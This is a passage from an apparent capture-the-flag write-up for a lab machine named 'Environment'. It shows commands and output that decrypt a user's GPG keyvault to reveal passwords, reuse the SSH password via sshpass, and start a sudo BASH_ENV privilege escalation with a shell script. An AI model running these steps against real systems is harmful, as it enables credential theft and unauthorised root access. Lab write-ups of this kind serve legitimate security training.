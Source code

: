 ```bash
www-data@environment:/dev/shm$ gpg -d --homedir /dev/shm/.gnupg /home/hish/backup/keyvault.gpg
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!! # ssh password to hish
FACEBOOK.COM -> summerSunnyB3ACH!!
```
## Lateral movement vector
> [!important] Creds
> hish:marineSPm@ster!!

```sh
sshpass -p 'marineSPm@ster!!' ssh hish@environment.htb -p22
```

---

# Privilege Escalation to root

## Local enumeration
```bash
uname -a
Linux environment 6.1.0-34-amd64 1 SMP PREEMPT_DYNAMIC
Debian 6.1.135-1 (2025-04-25) x86_64 GNU/Linux
```
```bash
 sudo -l
[sudo] password for hish:
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV
    BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```
```bash
id
uid=1000(hish) gid=1000(hish) groups=1000(hish),24(cdrom),25(floppy),29(audio),30(dip),44(video),
46(plugdev),100(users),106(netdev),110(bluetooth)
```
- `hish` can run `/usr/bin/systeminfo` as sudo
- make a file with `vi /dev/shm/pwn.sh`
```bash
#!/bin/bash 
bash
```

![](<./attachments/Environment-22.png>)
